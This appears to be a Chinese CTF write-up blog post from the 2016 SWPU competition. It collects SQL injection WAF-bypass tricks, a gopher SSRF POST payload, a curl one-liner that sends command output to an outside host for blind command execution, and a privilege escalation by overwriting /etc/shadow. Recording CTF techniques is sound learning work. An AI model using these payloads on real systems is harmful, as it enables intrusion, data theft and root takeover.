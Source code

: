 ```yaml
---
layout: post
title: 2016 swpu-ctf小记
tags: [ctf, mysql, ssrf]
comment: false
---
```


前几天有在做swpu-ctf，记录下这次有用上的一些姿势

## MySQL过滤逻辑运算符后如何拼接
```mysql
-
select password from user where user='root'-1;	//无返回
select password from user where user='root'-0;	//返回
+	//和-效果一样

/
select password from user where user='root'/1;	//返回
select password from user where user='root'/0;	//无返回
%	//和/效果一样
```
## MySQL带入``的一个特性
平时在\`\`放入字符，MySQL会去查找这个列，要是不存在这个列的话会出错。但绕过80sec的waf就需要带入\`\'\`
```mysql
select password from user where user='root' and `test`.``.user or 1;
//这里的`test`.``.user，test为任意内容，user要是当前查询表中存在的列名
select password from user where user='root' and user or 1;	//跟上面的语句效果一样
```

## 利用gopher在ssrf中发送POST请求
```urlencode
gopher://127.0.0.1:80/APOST%20/%20HTTP/1.1%0D%0AUser-Agent%3A%20curl/7.38.0%0D%0AHost%3A%20127.0.0.1%0D%0AAccept%3A%20%2A/%2A%0D%0AContent-Length%3A%2013%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A%0D%0Apostdata%3Dtest
```
除了gopher有的/A就是一个正常http的POST包

## 无回显的命令执行
```shell
curl${IFS}http://ip/?a=`ls|xargs|sed${IFS}s/[[:space:]]/:/g`
```
看log文件的记录就行，或者监听端口也行

## 其它
那个tomcat的提权，看别人的writeup都是用的最近一个洞来提权的。我发现它那里tomcat用户是shadow文件的所有者，我就直接覆盖掉之前root的密码再切用户完成提权了，应该就跟用passwd命令来改密码一个效果。不会像用脏牛漏洞时覆盖passwd文件里的root那样导致系统好多的服务出问题，从而死机。后面脏牛的POC貌似是改写具有s权限的文件来提权的，不过试了本地两台虚拟机还是会死机- -
